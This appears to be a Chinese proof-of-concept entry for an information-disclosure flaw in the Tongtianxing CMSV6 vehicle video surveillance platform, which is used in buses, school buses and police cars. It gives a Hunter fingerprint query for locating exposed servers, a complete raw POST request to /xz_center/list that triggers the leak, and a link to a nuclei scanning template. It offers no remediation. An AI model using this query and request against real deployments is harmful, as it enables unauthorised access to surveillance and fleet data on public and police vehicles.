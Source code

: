 # 通天星CMSV6车载视频监控平台 list存在信息泄露漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台list存在信息泄露漏洞.

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/IV8qZP8iGWlBN37Q/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-245697.png)

# 四、漏洞复现
```plain
POST /xz_center/list HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=07B1AA29791CD9F46FCEFA01A13C216B
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

page=1
```

![1703432021521-6d6a9adc-749b-4056-964d-5278a0aa0ce5.png](./img/IV8qZP8iGWlBN37Q/1703432021521-6d6a9adc-749b-4056-964d-5278a0aa0ce5-588079.png)

nuclei脚本

[通天星-CMSV6-list-信息泄露.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/29512878/1735362335694-f59d95ab-6b75-4975-a77a-c3ffb8b4a7b0.yaml)



> 更新: 2024-12-28 13:05:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cld4q2px8ng4gqhe>